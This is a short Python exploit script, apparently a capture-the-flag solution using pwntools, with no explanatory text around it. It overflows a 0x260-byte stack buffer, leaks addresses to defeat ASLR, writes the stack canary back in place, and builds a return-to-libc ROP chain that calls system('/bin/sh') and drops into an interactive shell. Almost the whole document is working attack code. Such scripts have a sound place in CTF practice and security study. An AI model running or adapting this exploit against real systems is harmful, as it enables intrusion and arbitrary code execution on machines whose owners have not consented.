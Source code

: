 ```python
payload = "A" * (0x260+7)+"B"
p.send(payload)
print p.recvuntil("B")
x = p.recvline()
val = u64(x[:-1].ljust(8,"\x00"))
print "val:", hex(val)
elf_base = val - val_add
print hex(elf_base)
p.recvuntil("(len is 624)\n")
payload = "A" * (0x260-8) 
payload += p64(canary)
payload += p64(0)
payload += "\x20"
p.send(payload)

puts_plt = elf_base + puts_plt_add
puts_got = elf_base + puts_got_add
pop_rdi = elf_base + pop_rdi_add
start = elf_base + start_add

p.recvuntil("path:")
p.sendline("flag")
p.recvuntil("len:")
p.sendline("1000")
payload = "A" * (0x260 + 8*5-1)+"B" 
p.send(payload)
p.recvuntil("B")
x = p.recvuntil("please")
print x
start_abs = u64(x[:8].split("\n")[0].ljust(8,"\x00"))
libc_base = start_abs - 0x20830
print hex(start_abs)
p.recvuntil("(len is 624)\n")
payload = "A" * (0x260-8) 
payload += p64(canary)
payload += p64(0)
payload += p64(start)
p.send(payload)

bin_add = 0x18cd57
sys_add = 0x45390

bin_abs = libc_base + bin_add
sys_abs = libc_base + sys_add

p.recvuntil("path:")
p.sendline("flag")
p.recvuntil("len:")
p.sendline("1000")
payload = "A" * (0x260-8)
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(bin_abs)
payload += p64(sys_abs)
payload += p64(start)

p.send(payload)
p.recv()
p.recvuntil("(len is 624)\n")
payload = "A"
p.send(payload)
p.interactive()
```